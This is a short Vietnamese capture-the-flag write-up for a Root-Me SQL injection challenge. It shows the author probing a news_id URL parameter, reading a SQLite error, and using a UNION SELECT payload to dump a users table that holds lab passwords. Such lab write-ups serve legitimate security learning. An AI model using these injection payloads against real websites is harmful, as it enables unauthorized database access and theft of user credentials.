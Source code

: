 Vì đã làm bài Sql injection String, mình đã biết không phải cứ sql injection thì phải nhét trong form login, chúng ta có thể tìm bất cứ dạng input form nào. Trong bài này tuy không có form nào khác ngoài login, nhưng khi bấm vào 1 trong 3 link ở trang chủ, url sẽ có dạng:

> ?action=news&news_id=1

Vậy thử injection trên URL xem sao. Viết lại url như sau:

> ?action=news&news_id=1'

sẽ hiện ra lỗi:

> **Warning**:  SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\" in **/challenge/web-serveur/ch18/index.php** on line **80**
>  unrecognized token: "\"

 Vậy ta biết đây là sqlite(chall nào trên rootme cũng dùng sqlite thì phải). Thực hiện câu inject đơn giản:

> ?action=news&news_id=1 union select * from users

hiện ra database:

>News

**Système de news**

La mise en place du système de news est désormais effective


**aTlkJYLjcbLmue3**

2005


**vUrpgAsCTX**

2006


**aFjRKx7j9d**

2008

Thử với từng password vào ta có ngay kết quả là pass đầu tiên